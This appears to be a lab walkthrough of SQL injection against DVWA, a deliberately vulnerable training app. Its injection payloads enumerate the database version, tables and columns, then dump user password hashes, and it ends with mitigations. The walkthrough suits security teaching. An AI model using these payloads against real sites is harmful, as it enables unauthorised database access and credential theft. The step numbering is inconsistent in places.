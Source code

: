 ### Step 1: Prepare DVWA for SQL Injection Exploit.

1. Open your browser and navigate to the DVWA at [http://10.6.6.13](http://10.6.6.13).
2. Enter the credentials: **admin** / **password**.
3. Set DVWA to Low Security.
    1. Click **DVWA Security** in the left pane.
    2. Change the security level to **Low** and click **Submit**.

### Step 1: Check DVWA to see if a SQL Injection Vulnerability is Present.

1. Click **SQL Injection** in the left pane.
2. In the **User ID:** field type **' OR 1=1 #** and click **Submit**.
3. You should receive the output shown below. The output confirms that there is a vulnerability present that permits execution of SQL statements that are entered directly into input fields.

```
ID: ' or 1=1 #  
First name: admin  
Surname: admin

ID: ' or 1=1 #  
First name: Gordon  
Surname: Brown

ID: ' or 1=1 #  
First name: Hack  
Surname: Me

ID: ' or 1=1 #  
First name: Pablo  
Surname: Picasso

ID: ' or 1=1 #  
First name: Bob  
Surname: Smith
```

You have entered an “always true” expression that was executed by the database server. The result is that all entries in the ID field of the database were returned.

### Step 3: Check for Number of Fields in the Query.

1. In the **User ID:** field type **1' ORDER BY 1 #** and click **Submit**.

You should receive the following output:

```
ID: 1' ORDER BY 1#

First name: admin

Surname: admin
```

2. In the **User ID:** field type **1' ORDER BY 2 #** and click **Submit**.

You should receive the following output:

```
ID: 1' ORDER BY 2#

First name: admin

Surname: admin
```

3. In the **User ID:** field type **1' ORDER BY 3** **#** and click **Submit**.

This time you should receive the error **Unknown column '3' in 'order clause'**.

Because the third string returned an error, this tells us the query involves two fields. This is useful information to know as you continue your exploit.

### Step 4: Check for version Database Management System (DBMS).

In the User ID: field type **1' OR 1=1 UNION SELECT 1, VERSION()#** and click **Submit**.

At the end of the output, you should see a result similar to the following:

```
ID: **1' OR 1=1 UNION SELECT 1, VERSION()#**  
First name: admin  
Surname: admin

ID: **1' OR 1=1 UNION SELECT 1, VERSION()#**  
First name: Gordon  
Surname: Brown

ID: **1' OR 1=1 UNION SELECT 1, VERSION()#**  
First name: Hack  
Surname: Me

ID: **1' OR 1=1 UNION SELECT 1, VERSION()#**  
First name: Pablo  
Surname: Picasso

ID: **1' OR 1=1 UNION SELECT 1, VERSION()#**  
First name: Bob  
Surname: Smith

ID: **1' OR 1=1 UNION SELECT 1, VERSION()#**  
First name: 1  
Surname: 5.5.58-0+deb8u1
```

The output **5.5.58-0+deb8u1** indicates the DBMS is MySQL version 5.5.58 running on Debian.

### Step 5: Determine the database name.

So far you have learned that the database is vulnerable, the query involves two fields, and the DDMS is MySQL 5.5.58.

Next, you will attempt obtain more schema information about the database.

In the User ID: field type **1' OR 1=1 UNION SELECT 1, DATABASE()#** and click **Submit**.

At the end of the output, you should see the following result:

```
ID: 1’ OR 1=1 UNION SELECT 1, DATABASE()#

First name: 1

Surname: dvwa
```

This means the name of the database is **dvwa**.

### Step 6: Retrieve table Names from the dvwa database.

1. In the **User ID:** field type:

```
1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#
```

2. Click **Submit**.

The output with **First Name: 1** is the table information.

```
ID: 1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#  
First name: admin  
Surname: admin

ID: 1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#  
First name: Gordon  
Surname: Brown

ID: 1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#  
First name: Bob  
Surname: Smith

ID: 1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#  
First name: 1  
Surname: guestbook

ID: 1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#  
First name: 1  
Surname: users
```

### Step 1: Retrieve column names from the users table.

You will now discover the field names in the users table. This will help you to find information that is useful for the pentest.

1. In the **User ID:** field type:

```
1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#
```

2. Click **Submit**.

```
ID: 1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#  
First name: 1  
Surname: user

ID: 1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#  
First name: 1  
Surname: password

ID: 1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#  
First name: 1  
Surname: avatar

ID: 1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#  
First name: 1  
Surname: last_login

ID: 1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#  
First name: 1  
Surname: failed_login
```

### Step 8: Retrieve the user credentials.

This query will retrieve the users and passwords.

1. In the **User ID:** field type:

```
1' OR 1=1 UNION SELECT user, password FROM users #
```

2. Click **Submit**.

After the list of users, you should see several results with usernames and what appears to be password hashes.

```
ID: 1' OR 1=1 UNION SELECT user, password FROM users #  
First name: admin  
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' OR 1=1 UNION SELECT user, password FROM users #  
First name: gordonb  
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' OR 1=1 UNION SELECT user, password FROM users #  
First name: 1337  
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' OR 1=1 UNION SELECT user, password FROM users #  
First name: pablo  
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' OR 1=1 UNION SELECT user, password FROM users #  
First name: smithy  
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

***MD5***
5f4dcc3b5aa765d61d8327deb882cf99
0d107d09f5bbe40cade3de5c71e9e9b7
*admin*
5f4dcc3b5aa765d61d8327deb882cf99:password

Mitigation methods:
- using parameterized queries (prepared statements) 
- input checking 
- field validation 
- filtering user inputs 
- escaping user input.



